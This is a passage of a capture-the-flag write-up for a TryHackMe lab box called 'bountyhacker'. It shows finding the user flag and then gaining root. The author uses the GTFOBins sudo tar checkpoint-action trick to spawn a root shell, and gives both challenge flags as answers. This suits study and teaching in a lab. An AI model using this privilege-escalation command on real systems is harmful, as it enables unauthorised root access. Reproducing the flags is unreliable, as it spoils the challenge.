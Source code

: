 ```
83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
- After lookin around we can see a `user.txt` file. Let's `cat` that file.
```
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```
## Answer
```
THM{CR1M3_SyNd1C4T3}
```

## Question
> root.txt
- We can list out the files that the `lin`  user is able to run using the following command:
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
- We can now use GTFOBins to escalate our privilege.
![[3 61.png]]
- We will use the `Sudo` exploit.
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```
- We now have root privilege and can cat the `root.txt` file. 
```
# cat root.txt  
THM{80UN7Y_h4cK3r}
```
## Answer
```
THM{80UN7Y_h4cK3r}
```